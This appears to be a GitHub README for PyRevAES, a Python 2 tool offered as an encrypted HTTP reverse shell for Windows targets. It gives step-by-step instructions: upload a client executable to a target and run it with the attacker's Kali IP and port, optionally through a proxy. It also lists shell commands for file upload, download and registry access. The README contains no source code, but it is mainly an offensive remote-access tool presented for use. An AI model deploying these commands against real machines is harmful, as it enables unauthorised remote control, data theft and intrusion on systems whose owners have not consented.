 <h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python version 2

If I get some time (and encouragement), I will convert this to a python3 project and probably use some oop.

## Usage:
1. Run server_shell_http.py from kali
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## EXTRAS:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from ```https://stackoverflow.com/questions/32468270/tcp-proxy-using-python``` Purely the work of voorloop. You might need to modfy lines 16 and 94 to modify the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

## COMMANDS:
```upload [filename]```

```download [filename]```     => Need to rename file after download.

```winreg```                 => displays help message


## Install
1. git clone <repo>
2. ```pip2 install -r requirements.txt```
3. ```python2 server_shell_http.py```
4. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Issues
If there are issues with pip2 installation (due to deprecation) refer to this ```https://bootstrap.pypa.io/``` to get pip working again for python2. 

If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```

If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
- Most of this code is from here ```https://www.trustedsec.com/2012/03/building-a-native-http-shell-with-aes-in-python/``` and about twenty other different sources.  I apologise if I haven't referenced anyone's code here.
